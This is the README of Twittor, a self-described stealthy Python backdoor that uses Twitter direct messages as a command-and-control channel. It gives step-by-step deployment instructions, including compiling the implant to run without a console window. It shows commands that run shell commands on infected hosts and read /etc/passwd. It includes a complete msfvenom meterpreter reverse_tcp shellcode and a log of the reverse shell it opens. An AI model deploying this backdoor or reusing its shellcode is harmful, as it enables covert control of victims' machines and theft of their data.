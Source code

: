 Twittor
====
A stealthy Python based backdoor that uses Twitter (Direct Messages) as a command and control server
This project has been inspired by [Gcat](https://github.com/byt3bl33d3r/gcat) which does the same but using a Gmail account.

Setup 
=====
For this to work you need:
- A Twitter account (**Use a dedicated account! Do not use your personal one!**)
- [Register an app](https://apps.twitter.com/app/new) on Twitter with **Read, write, and direct messages** Access levels. 

Install the dependencies:

```
$ pip install -r requirements.txt
```

This repo contains two files:
- ```twittor.py``` which is the client
- ```implant.py``` the actual backdoor to deploy

In both files, edit the access token part and add the ones that you previously generated:

```python
CONSUMER_TOKEN = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'
CONSUMER_SECRET = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'

ACCESS_TOKEN = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'
ACCESS_TOKEN_SECRET = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'

USERNAME = 'XXXXXXXXXXXXXXXXXXXXXXXX'
```

You're probably going to want to compile ```implant.py``` into an executable using [Pyinstaller](https://github.com/pyinstaller/pyinstaller)
In order to remove the console when compiling with Pyinstaller, the flags ```--noconsole --onefile``` will help. Just saying. 

Usage
=====

In order to run the client, launch the script. 

```
$ python twittor.py
```

You'll then get into an 'interactive' shell which offers few commands that are:

```
$ help

    refresh - refresh C&C control
    list_bots - list active bots
    list_commands - list executed commands
    !retrieve <jobid> - retrieve jobid command
    !cmd <MAC ADDRESS> command - execute the command on the bot
    !shellcode <MAC ADDRESS> shellcode - load and execute shellcode in memory (Windows only)
    help - print this usage
    exit - exit the client
    
$ 
```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the list command:
```
$ list_bots
B7:76:1F:0B:50:B7: Linux-x.x.x-generic-x86_64-with-Ubuntu-14.04-precise
$
```

The output is the MAC address which is used to uniquely identifies the system but also gives you OS information the implant is running on. In that case a Linux box. 


- Let's issue a command to an implant:
```
$ !cmd B7:76:1F:0B:50:B7 cat /etc/passwd
[+] Sent command "cat /etc/passwd" with jobid: UMW07r2
$
```

Here we are telling ```B7:76:1F:0B:50:B7``` to execute ```cat /etc/passwd```, the script then outputs the ```jobid``` that we can use to retrieve the output of that command

- Lets get the results!

```
$ !retrieve UMW07r2
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
(...)
```

Command to use in that case is ```!retrieve``` followed by the jobid from the command. 

- Refresh results

In order to retrieve new bots/command outputs but also force the client to refresh the results, use the ```refresh``` command.

```
$ refresh
[+] Sending command to retrieve alive bots
[+] Sleeping 10 secs to wait for bots
$
```

This will send a ```PING``` request and wait 10 seconds for them to answer.
Direct messages will then be parsed - Bot list will be refreshed but also the command list, including new command outputs. 

- Retrieve previous commands

As I said earlier, (previous) commands will be retrieved from older direct messages (limit is 200) and you can actually retrieve/see them by using the ```list_commands``` command

```
$ list_commands
8WNzapM: 'uname -a ' on 2C:4C:84:8C:D3:B1
VBQpojP: 'cat /etc/passwd' on 2C:4C:84:8C:D3:B1
9KaVJf6: 'PING' on 2C:4C:84:8C:D3:B1
aCu8jG9: 'ls -al' on 2C:4C:84:8C:D3:B1
8LRtdvh: 'PING' on 2C:4C:84:8C:D3:B1
$
```

- Running shellcode (Windows hosts)

This option might be handy in order to retrieve a meterpreter session and [this article](http://netsec.ws/?p=331#more-331) becomes really useful. 

Generate your meterpreter shellcode, like: 

```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=3615 -f python
(...)
Payload size: 299 bytes
buf =  ""
buf += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += "\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
buf += "\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x00\x00\x01\x68"
buf += "\x02\x00\x0e\x1f\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
buf += "\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec"
buf += "\xe8\x3f\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02"
buf += "\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\xe9\x8b\x36\x6a"
buf += "\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53"
buf += "\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
buf += "\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\xc3\x01\xc3\x29\xc6"
buf += "\x75\xe9\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5"
```

Extract the shellcode and send it to the specified bot using the ```!shellcode``` command! 

```
$ !shellcode 11:22:33:44:55 \xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b (...)
[+] Sent shellcode with jobid: xdr7mtN
$
```

Et voilà! 

```
msf exploit(handler) > exploit

[*] Started reverse handler on 10.0.0.1:3615 
[*] Starting the payload handler...
[*] Sending stage (884270 bytes) to 10.0.0.99
[*] Meterpreter session 1 opened (10.0.0.1:3615 -> 10.0.0.99:49254) at 2015-09-08 10:19:04 -0400

meterpreter > getuid
Server username: WIN-XXXXXXXXX\PaulSec
```

Open a beer and enjoy your reverse meterpreter shell. 

Contributing and/or questions? 
=====

Project is entirely open source and released under MIT license.
I mostly wanted to create a PoC after Twitter decided to remove the 140 characters limit for the Direct Messages. 
Few stuff should be added such as Encryption (Adding AES on top of it). 
"Messages" are using a dictionary data structure and the whole command is only base64 encoded. 
Fork the project, contribute, submit pull requests, and have fun. 

If you find a bug, open an issue on Github and/or ping me on [Twitter](http://twitter.com/PaulWebSec).

Again, feel free to check the [Gcat](https://github.com/byt3bl33d3r/gcat) amazing project from [byt3bl33d3r](https://twitter.com/byt3bl33d3r) that inspired me a lot.
